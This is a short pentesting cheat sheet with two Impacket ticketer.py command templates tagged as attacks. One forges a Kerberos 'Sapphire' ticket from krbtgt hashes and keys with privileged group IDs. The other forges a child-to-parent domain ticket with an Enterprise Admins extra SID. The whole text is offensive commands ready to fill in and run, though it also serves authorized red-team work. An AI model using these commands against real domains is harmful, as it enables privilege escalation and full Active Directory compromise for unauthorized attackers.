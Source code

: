 # Ticketer
#plateform/linux #target/remote #cat/ATTACK


## Ticketer with Sapphire ticket
#plateform/linux #target/remote #cat/ATTACK
```
ticketer.py -request -domain "<domain>" -user "<user>" 
-password "<password>" -nthash '<krbtgt/service NT hash>' -aesKey '<krbtgt_service_AES_key>' -domain-sid '<DOMAIN_SID_HERE>' -user-id '1337' -groups '512,513,518,519,520' '<target>'
```

## Ticketer - Child to Parent
#plateform/linux #target/remote #cat/ATTACK
```
ticketer.py -aesKey '<child_krbtgt_aeskey>' -domain <CHILD_DOMAIN_NAME> -domain-sid <YOUR_DOMAIN_SID> -extra-sid <TARGET_DOMAIN_SID>-519 Administrator -user-id 500
```